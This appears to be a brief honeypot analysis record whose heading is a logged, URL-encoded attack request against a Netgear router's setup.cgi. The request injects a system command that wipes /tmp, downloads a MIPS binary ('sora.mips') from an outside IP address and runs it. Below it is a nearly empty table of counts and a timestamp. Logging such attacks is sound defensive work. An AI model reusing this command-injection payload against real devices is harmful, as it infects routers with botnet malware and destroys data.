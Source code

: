 # Analysis for /setup.cgi%3Fnext_file%3Dnetgear.cfg%26todo%3Dsyscmd%26cmd%3Drm+-rf+%2Ftmp%2F*%3Bwget+http%3A%2F%2F107.172.249.3%2Fbins%2Fsora.mips+-O+%2Ftmp%2Fnetgear%3Bsh+netgear%26curpath%3D%2F%26currentsetting.htm%3D1
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 